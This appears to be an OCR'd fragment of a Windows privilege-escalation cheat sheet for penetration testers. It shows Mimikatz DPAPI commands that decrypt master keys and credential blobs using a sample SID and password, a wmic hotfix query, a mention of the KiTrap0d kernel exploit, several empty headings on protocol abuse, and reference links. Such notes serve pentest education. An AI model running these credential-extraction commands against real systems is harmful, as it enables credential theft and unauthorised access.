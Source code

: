 Examine master key file
```
dpapi::​ masterkey​ /​ in​ :0792​ c32e​ -48​ a5​ -4​ fe3​ -8​ b43​ - ​ d93d64590580
/​ sid:S​ -1-5-21-953262931-566350628-63446256-1001 /​ password​ :4​ Cc3ssC0ntr0ller
```

Decrypt credential blob
```
dpapi::​ cred​ /​ in​ :51​ AB168BE4BDB3A603DADE4F8CA81290
```

### Using Kernel Exploit

Installed updates:
```
wmic qfe get Caption,Description,HotFixID,InstalledOn

```
KiTrap0d

## Using logical flaws

### Directory Replication Service (DRSR)

###Netlogon Remote Service (NRPC)

###BackupKey Remote Service (BKRP)

###Local Service Authority (Domain Policy) Remote Protocol (LSAD)

###Privilege Attribute Certificate Data Structure (PAC)

### Kerberos

#### Kerberos Protocol Extension (KILE)

#### Kerberos Protocol Extension, Service for User and Constrained Delegation Protocol (SFU)

### Add user using service misconfiguration

## References

> - https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/
> - http://www.greyhathacker.net/?p=738
> - https://toshellandback.com/2015/11/24/ms-priv-esc
> - https://www.toshellandback.com/2015/08/30/gpp/
